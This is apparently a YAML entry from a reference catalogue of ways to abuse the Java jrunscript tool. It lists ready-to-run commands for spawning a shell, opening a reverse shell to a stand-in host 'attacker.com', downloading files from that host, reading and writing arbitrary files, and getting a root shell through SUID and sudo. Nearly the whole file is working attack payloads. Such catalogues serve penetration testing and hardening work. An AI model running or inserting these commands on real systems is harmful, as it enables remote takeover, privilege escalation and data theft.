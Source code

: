 ```yaml
---
description: This tool is installed starting with Java SE 6.
functions:
  shell:
    - code: jrunscript -e "exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)')"
  reverse-shell:
    - code: |
        export RHOST=attacker.com
        export RPORT=12345
        jrunscript -e 'var host='"'""$RHOST""'"'; var port='"$RPORT"';
        var p=new java.lang.ProcessBuilder("/bin/bash", "-i").redirectErrorStream(true).start();
        var s=new java.net.Socket(host,port);
        var pi=p.getInputStream(),pe=p.getErrorStream(),si=s.getInputStream();
        var po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){
        while(pi.available()>0)so.write(pi.read());
        while(pe.available()>0)so.write(pe.read());
        while(si.available()>0)po.write(si.read());
        so.flush();po.flush();
        java.lang.Thread.sleep(50);
        try {p.exitValue();break;}catch (e){}};p.destroy();s.close();'
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        jrunscript -e "cp('$URL','$LFILE')"
  file-write:
    - code: jrunscript -e 'var fw=new java.io.FileWriter("./file_to_write"); fw.write("DATA"); fw.close();'
  file-read:
    - code: jrunscript -e 'br = new BufferedReader(new java.io.FileReader("file_to_read"));
         while ((line = br.readLine()) != null) { print(line); }'
  suid:
    - code: ./jrunscript -e "exec('/bin/sh -pc \$@|sh\${IFS}-p _ echo sh -p <$(tty) >$(tty) 2>$(tty)')"
  sudo:
    - code: sudo jrunscript -e "exec('/bin/sh -c \$@|sh _ echo sh <$(tty) >$(tty) 2>$(tty)')"
---
```

